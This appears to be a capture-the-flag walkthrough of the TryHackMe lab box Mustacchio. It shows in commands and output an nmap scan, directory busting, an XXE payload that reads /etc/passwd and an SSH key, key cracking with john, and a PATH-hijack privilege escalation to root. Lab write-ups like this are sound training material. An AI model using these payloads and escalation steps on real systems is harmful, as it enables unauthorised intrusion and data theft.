

In this walkthrough, we'll go over a challenge (easy) level box called ***Mustacciho*** on [TryHackMe](https://tryhackme.com/room/jeff) 


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.43.71 --open
```
Per the nmap result, it looks like ports 22, 80 and 8765 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-16 15:50 EDT
Nmap scan report for 10.10.43.71
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.71 seconds
```
We can see the website served on port 80:


We can start busting the directories with `dirsearch -u http://10.10.43.71 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`:


We see a directory called ***custom***. In that directory, we find a file called ***/auth/dontforget.bak***:


Upon visting the directory, we are prompted to download dontforget.bak and it has an example XML template:


We can craft the below XML payload to read "/etc/passwd" file and then send it via the repeater:
```xml
<?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
<name>
  &xxe;
</name>
<author>Testing</author>
<com>This is a test</com>
</comment>
```


We then use the payload to retreive barry's ssh key:


Now, we can try to crack this.
1. First convert the key: `/usr/share/john/ssh2john.py id_rsa > ssh-hash` 
2. Then use john to crack the hash: `john ssh-hash --wordlist=/usr/share/wordlists/rockyou.txt`


SSH creds:

Username | Password
----------- | ---------
barry | urieljames

We can ssh into the machine with the above credentials:


For potential privesc PE, I ran the following command `find / -type f -a \\( -perm -u+s -o -perm -g+s \\) -exec ls -l {} \\; 2>/dev/null`:



And find ***/home/joe/live_log*** binary. If we run "strings" command, we'll see that this executable runs "tail" command:
`string /home/joe/live_log`


We can try to create a binary and name it "tail" and add the path of the binary to PATH in order to inject our own code. From here, we switch to "/tmp" folder and run the following scripts to copy "/bin/bash" to tail file:
```bash
echo '/bin/bash' > /tmp/tail
chmod +x tail
export PATH=/tmp:$PATH
```

After that we can just run `/home/joe/live_log` and get a root shell:


Finally, we have done it, we the root user.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
